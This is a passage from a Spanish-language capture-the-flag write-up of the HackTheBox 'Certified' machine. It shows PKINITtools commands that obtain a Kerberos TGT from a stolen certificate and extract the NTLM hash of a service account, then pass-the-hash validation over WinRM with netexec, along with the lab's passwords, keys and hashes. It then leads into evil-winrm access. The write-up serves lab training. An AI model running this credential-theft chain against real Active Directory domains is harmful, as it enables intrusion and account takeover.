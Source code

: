 {% code overflow="wrap" %}
```bash
python /opt/PKINITtools/gettgtpkinit.py -dc-ip 10.10.11.41 certified.htb/MANAGEMENT_SVC -cert-pfx 3r6awZCj.pfx -pfx-pass YKnNhAzfknFJOWoLIcdS MANAGEMENT_SVC.ccache
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2485_vmware_YzB09i7rsA.png" alt=""><figcaption></figcaption></figure>

Una vez con el TGT generado, procederemos a extraer el hash NTLM del usuario objetivo. Verificamos que hemos conseguido el hash NTLM del usuario "management\_svc@certified.htb".

{% code overflow="wrap" %}
```bash
python /opt/PKINITtools/getnthash.py -dc-ip 10.10.11.41 certified.htb/MANAGEMENT_SVC -key 24e19988d8b8503066217b378c54975abc8bbbb55394817a1bcd4667eb3991fa 2>/dev/null
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2486_vmware_o79eT47JwN.png" alt=""><figcaption></figcaption></figure>

## Initial Access

### Validating the obtained NTLM hash

Procederemos a validar el hash NTLM obtenido del usuario "management\_svc@certified.htb" para comprobar que es válido.

```bash
netexec winrm 10.10.11.41 -u 'MANAGEMENT_SVC' -H 'a091c1832bcdd4677c28b5a6a1295584'
```

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

### Abusing WinRM

Una vez validado que podemos autenticarnos con el hash NTLm del usuario en cuestión y que hayamos comprobado que anteriormente con este usuario disponía de permisos para conectarse de manera remota, procederemos a acceder al WinRM a través de **evil-winrm**.
